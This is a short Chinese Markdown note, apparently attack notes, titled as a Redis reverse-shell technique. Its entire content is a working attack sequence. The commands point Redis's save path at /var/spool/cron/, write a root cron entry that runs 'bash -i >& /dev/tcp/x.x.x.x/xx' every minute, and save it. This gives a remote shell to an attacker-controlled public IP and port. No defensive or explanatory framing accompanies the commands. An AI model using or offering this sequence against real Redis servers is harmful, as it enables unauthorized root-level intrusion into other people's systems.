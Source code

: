 # Redis 反弹5he11

---

连接后：

```
设置任务（x.x.x.x：公网IP  xx ：公网IP的端口号）
config set dir /var/spool/cron/
config set dbfilename root
set x "\n\n\n*/1 * * * * bash -i >& /dev/tcp/x.x.x.x/xx 0>&1\n\n\n"
save
```